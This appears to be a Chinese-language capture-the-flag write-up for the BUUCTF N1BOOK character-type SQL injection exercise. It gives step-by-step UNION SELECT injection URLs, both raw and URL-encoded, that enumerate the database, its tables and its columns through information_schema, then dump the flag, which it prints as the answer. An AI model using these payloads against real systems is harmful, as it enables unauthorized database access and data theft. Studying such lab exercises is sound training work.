 ```yaml
---
title: 字符型注入
createTime: 2025/02/06 20:37:26
permalink: /ctf/web/mbbqewrf/
---
```

> 例题：BUUCTF N1BOOK \[第一章 web入门\]SQL注入-1

## 查数据库名

```url
http://example.com/index.php?id=4' union select 1,database(),3#
```

```url
http://example.com/index.php?id=4%27%20union%20select%201%2cdatabase()%2c3%23
```

```sql
select * from notes where id ='4' union select 1,database(),3
```

结果：

![1737908456337](image/1.字符型注入/1737908456337.png)

## 查表名

```url
http://example.com/index.php?id=4' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()#
```

```url
http://example.com/index.php?id=4%27%20union%20select%201,2,group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database()%23
```

```sql
union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()
```

结果：

![1737908437720](image/1.字符型注入/1737908437720.png)

## 查字段名

```url
http://example.com/index.php?id=4' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='fl4g'#
```

```url
http://example.com/index.php?id=4%27%20union%20select%201,2,group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema=database()%20and%20table_name=%27fl4g%27%23
```

```sql
select * from notes where id ='4' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='fl4g'
```

> 这里的 `fl4g` 是上一步查到的表名

结果：

![1737909276928](image/1.字符型注入/1737909276928.png)

## 查字段内容

```url
http://example.com/index.php?id=4' union select 1,database(), group_concat(fllllag) from fl4g#
```

```url
http://example.com/index.php?id=4%27%20union%20select%201%2cdatabase()%2c%20group_concat(fllllag)%20from%20fl4g%23
```

```sql
select * from notes where id ='4' union select 1,database(), group_concat(fllllag) from fl4g
```

> 这里的 `fl4g` 和 `fllllag` 是上两步查到的表名和字段名

结果：

![1737909647671](image/1.字符型注入/1737909647671.png)

## ***Cracked.***

```flag
n1book{union_select_is_so_cool}
```
